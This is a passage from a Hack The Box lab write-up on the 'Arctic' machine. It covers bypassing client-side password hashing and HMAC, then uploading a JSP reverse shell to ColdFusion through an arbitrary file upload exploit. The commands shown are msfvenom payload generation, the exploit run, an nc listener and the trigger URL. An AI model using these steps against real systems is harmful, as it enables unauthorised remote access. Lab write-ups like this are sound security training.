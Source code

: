 What we essentially did over here is bypass any client side scripts that hash and then HMAC the password and instead, did it by ourselves and sent the request directly to the server. If you had the original plaintext (not hashed) password, you wouldn’t have to go through all this trouble.

To make matters even worse, you need to perform the above steps in the short window of 30 seconds! The application seems to reload every 30 seconds and with every reload a new salt value is used. Now, you might ask “why not just get the original salt value and when I intercept the request in Burp, change the salt value to the one I used in the JS code? This way I wouldn’t have to abide by the 30 second rule”. Great question! I had this idea as well, only to find out that the salt value is coming from the server side and seems to also be updated and saved on the server side. So, if you use a previous salt or your own made up salt, the application will reject it!

**Uploading a Reverse Shell**

Now that we successfully exploited the directory traversal vulnerability to gain access to the admin console, let’s try to exploit the arbitrary file upload vulnerability to upload a reverse shell on the server.

The exploit 45979 does not pan out. The directories listed in the exploit do not match the specific version of ColdFusion that is being used here. Arrexel did write an [exploit](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload) that would work and was written specifically for this box. So it is technically cheating, but I have already spent enough time on this box, so I’m going to use it!

**Note**: The arbitrary file exploit does not require you to authenticate, so technically you don’t need to exploit the directory traversal vulnerability beforehand, unless you plan on using the GUI.

It is worth noting that in the Administrator GUI, there is a Debugging & Logging > Scheduled Tasks category that would allow us to upload files.

![](../img/Arctic Writeup wo Metasploit/1_HqvdBk09BVtq1448nzEWFA.png)

Instead, I’m going to use arrexal’s exploit.

First, generate a JSP reverse shell that will be run and served by the server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 > shell.jsp
```

Next, run arrexal’s exploit.

```
python arb-file-exploit.py 10.10.10.11 8500 shell.jsp
```

The exploit tells us where the exploit file was saved.

![](../img/Arctic Writeup wo Metasploit/1_wcq5Sd42-paHcYnVDMBb9A.png)

Next, start up a listener on the attack machine.

```
nc -nlvp 4444
```

Then visit the location of the exploit in the browser to run the shell.jsp file.

```
[http://10.10.10.11:8500/userfiles/file/exploit.jsp](http://10.10.10.11:8500/userfiles/file/exploit.jsp)
```
